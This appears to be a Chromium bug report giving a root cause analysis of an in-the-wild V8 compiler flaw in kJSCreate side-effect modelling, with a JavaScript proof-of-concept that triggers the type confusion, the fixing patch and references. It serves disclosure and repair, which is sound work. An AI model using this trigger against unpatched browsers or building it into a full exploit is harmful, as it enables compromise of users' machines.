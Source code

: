 <b>VULNERABILITY DETAILS</b>

Vulnerability exploited in the wild in targeted attacks, here is the root cause analysis done by saelo@

# Incorrect side effect modelling for JSCreate

The function NodeProperties::InferReceiverMapsUnsafe [1] is responsible for inferring the Map of an object. From the documentation: "This information can be either "reliable", meaning that the object is guaranteed to have one of these maps at runtime, or "unreliable", meaning that the object is guaranteed to have HAD one of these maps.". In the latter case, the caller has to ensure that the object has the correct type, either by using CheckMap nodes or CodeDependencies.

On a high level, the InferReceiverMapsUnsafe function traverses the effect chain until it finds the node creating the object in question and, at the same time, marks the result as unreliable if it encounters a node without the kNoWrite flag [2], indicating that executing the node could have side-effects such as changing the Maps of an object. There is a mistake in the handling of kJSCreate [3]: if the object in question is not the output of kJSCreate, then the loop continues *without* marking the result as unreliable. This is incorrect because kJSCreate can have side-effects, for example by using a Proxy as third argument to Reflect.construct. The bug can then for example be triggered by inlining Array.pop and changing the elements kind from SMIs to Doubles during the unexpected side effect.

## Proof-of-Concept:

ITERATIONS = 10000;
TRIGGER = false;

function f(a, p) {
    return a.pop(Reflect.construct(function() {}, arguments, p));
}

let a;
let p = new Proxy(Object, {
    get: function() {
        if (TRIGGER) {
            a[2] = 1.1;
        }
        return Object.prototype;
    }
});
for (let i = 0; i < ITERATIONS; i++) {
    let isLastIteration = i == ITERATIONS - 1;
    a = [0, 1, 2, 3, 4];
    if (isLastIteration)
        TRIGGER = true;
    print(f(a, p));
}

## Patch

diff --git a/src/compiler/node-properties.cc b/src/compiler/node-properties.cc
index 7ba3a59f6f..4729323c8f 100644
--- a/src/compiler/node-properties.cc
+++ b/src/compiler/node-properties.cc
@@ -447,6 +447,8 @@ NodeProperties::InferReceiverMapsResult NodeProperties::InferReceiverMapsUnsafe(
           }
           // We reached the allocation of the {receiver}.
           return kNoReceiverMaps;
+        } else {
+            result = kUnreliableReceiverMaps;
         }
         break;
       }

## References

[1] https://source.chromium.org/chromium/chromium/src/+/master:v8/src/compiler/node-properties.cc;drc=04ea8adc20fdf4e6dba9885781d415dcf851b153;bpv=1;bpt=1;l=337?originalUrl=https:%2F%2Fcs.chromium.org%2F
[2] https://source.chromium.org/chromium/chromium/src/+/master:v8/src/compiler/node-properties.cc;l=458;drc=04ea8adc20fdf4e6dba9885781d415dcf851b153;bpv=1;bpt=1?originalUrl=https:%2F%2Fcs.chromium.org%2F
[3] https://source.chromium.org/chromium/chromium/src/+/master:v8/src/compiler/node-properties.cc;l=379;drc=04ea8adc20fdf4e6dba9885781d415dcf851b153;bpv=1;bpt=1?originalUrl=https:%2F%2Fcs.chromium.org%2F

<b>VERSION</b>
Chrome Version: m80
Operating System: Windows 10

*We have evidence that this bug is being used in the wild in targeted attacks. Therefore, this bug is subject to a 7 day disclosure deadline.*
